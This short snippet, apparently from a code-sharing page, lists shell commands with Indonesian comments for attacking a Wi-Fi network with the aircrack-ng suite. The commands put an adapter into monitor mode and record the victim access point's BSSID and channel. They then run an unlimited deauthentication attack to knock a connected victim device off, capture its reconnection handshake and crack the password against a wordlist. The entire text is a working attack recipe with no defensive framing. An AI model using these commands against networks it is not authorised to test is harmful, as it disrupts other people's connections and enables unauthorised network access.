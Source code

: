airmon-ng start wlan0
airodump-ng wlan0 //ingat BSSID dan CHANNEL AP victim

airodump-ng -c<channel_victim> -w <nama_file> -d <bssid_victim> wlan0 //biarkan menyala dan perhatikan Rate perangkat yang terhubung setelah perintah aireplay dijalankan (menunggu mereka terkoneksi kembali)

aireplay-ng --deauth 0 -a <bssid_victim> -c <station_victim> wlan0 //<bssid_victim> = mac AP, <station_victim> = mac Perangkat yang sedang tersambung 

aircrack-ng <nama_file> -w <wordlist>

